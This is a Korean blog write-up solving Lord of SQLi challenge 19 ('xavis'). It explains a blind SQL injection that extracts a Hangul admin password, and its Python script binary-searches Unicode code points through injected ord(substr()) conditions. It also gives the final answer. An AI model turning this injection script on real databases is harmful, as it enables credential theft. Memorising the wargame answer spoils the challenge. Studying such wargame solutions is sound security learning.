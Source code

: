 

# [19] xavis

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbOK0DW%2FbtrnE823tg2%2FTk9pBzePoYO2Rqn92Lq8Xk%2Fimg.png">

## 풀이
오랜만에 만나는 Blind SQLi 문제다.

solve 조건은 언제나와 같이 admin 계정의 pw를 알아내는 것이다.

<br>

preg_match를 보면 regex와 like를 필터링하고 있다.

regex는 Sql 정규표현식인 regexp를 걸러내기 위한 것으로 보인다.

정작 =는 필터링 하고 있지 않기 때문에 유의미한 제약이 있어보이진 않는다.

<br>

그런데 너무 제약이 없다는 점이 좀 꺼림칙하다.

겉으로 보기에는 그냥 기본적인 Blind 문제 같지만... 그럴리가 없는데...?

<br> 

아니나 다를까, 기존의 자동화 코드가 먹히질 않았다.

필터에 걸린 것도 뭐가 잘못된 것도 아닌데 아스키 코드를 전체 다 돌고도 맞는 문자를 뽑아내오지 못했다.

불현듯 머릿속을 스친 생각은... 아 이거 한글인 것 같다ㅋㅋㅋㅋㅋㅠ

<br>

한글은 유니코드 문자셋을 통해 표현되기 때문에 당연한 말이지만 아스키 번호를 백날 돌아봐야 찾을 수가 없다.

한글로 된 데이터를 탐색하는 방법에는 여러가지가 있을 수 있겠지만 새로운 챌린지가 생긴 김에 그냥 내 식대로 (야매로) 한번 접근해보았다...ㅎ!

<br>

한글을 표현하는 유니코드는 정해진 16진수 값을 갖고 있고, 이 값들은 10진수로 변환이 가능하다.

10진수로 표현된 값은 대소 비교가 가능하다는 점과 이전에 몇번 등장했었던 ord 함수를 이용해보았다.

- 한글 유니코드 10진수 : 44032 '가' ~ 55203 '힣'

- ord : 해당 문자의 유니코드 값을 반환하는 함수

<br>

추가로, 이전까지와는 달리 탐색해야하는 번호의 개수가 무지막지하게.. 많기 때문에

세월아 네월아 하나하나 탐색해서는 시간이 과도하게 오래 걸리게 되는 문제에 직면하게 되었다.

그래서 미뤄뒀던 2진 탐색 알고리즘까지 한번 구현해보았다.


<br>
 

**2진 탐색을 적용한 LoS 19번 Python 자동화 코드**이다.

```python
import requests

def send(param):
    url = "https://los.rubiya.kr/chall/xavis_04f071ecdadb4296361d2101e4a2c390.php"
    cookie = "dfksep8hnmequ6sm0qe1iu65pa"
    head = {"PHPSESSID":f"{cookie}"}
    my_url = url+param
    res = requests.get(my_url, cookies=head)
    return res.text

print("💘 LoS 19를 시작합니다")

ans = ""
endpoint = False

for len in range(1, 30):
    if(endpoint):
        break
    print(f"{len}번째 문자에 대해 검색합니다..")
    start = 44032
    end = 55203
    while True:
        if(endpoint):
            print(f"{len}번째 문자는 존재하지 않습니다.")
            print(f"👏 pw의 정체는 [{ans}]입니다!")
            break
        if(start==end):
            endpoint = True
        middle = round((start+end)/2)
        param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))>={middle} %23"
        if("Hello admin" in send(param)):
            param=f"?pw=' || id=\"admin\" %26%26 ord(substr(pw,{len},1))={middle} %23"
            if("Hello admin" in send(param)):
                print(f"{len}번째 문자의 십진수 → {middle}")
                ans += chr(middle)
                break
            else:
                start = middle
                continue
        else:
            end = middle
            continue
```

① HTTP 요청을 보내는 과정을 send() 함수로 분리했다.

② Sql에서 한글은 3Byte로 저장되는데, 이런저런 예외사항이 있기 때문에 length 함수로 정확한 문자열의 길이를 알아낼 수는 없다고 한다. 그래서 그냥 1부터 30까지 돌다가 pw를 완전히 찾으면 알아서 반복문을 탈출하게끔 구현했다. 설마 pw가 30자 보다 길진 않겠지...

③ 한글이 아닌 다른 문자가 섞여있을 시에는 사용할 수 없다는 분명한 한계점이 있다. 일단 시도해보고 안되면 수정하려고 했지만 운이 좋게도 pw가 그냥 한글 뿐이라서 여기서 구현이 종료되었다. 추가적인 구현을 해야 됐었더라면, 아마 해당 문자의 ord 값이 44032 보다 작을 시 바로 아스키 번호를 돌게끔 해주었을 것 같다.

<br>

다음은 해당 코드의 실행 결과이다.


<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FzpB3U%2FbtrnBiTbjuW%2FXg3aUFYa1g6w3znjkuyNa1%2Fimg.png">


Blind 공격 결과, 입력할 답은 `우왕굳` 이다.


## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FqxRPT%2FbtrnCl9u4o0%2FgKISYRR1ebKg5PoezUu2n0%2Fimg.png">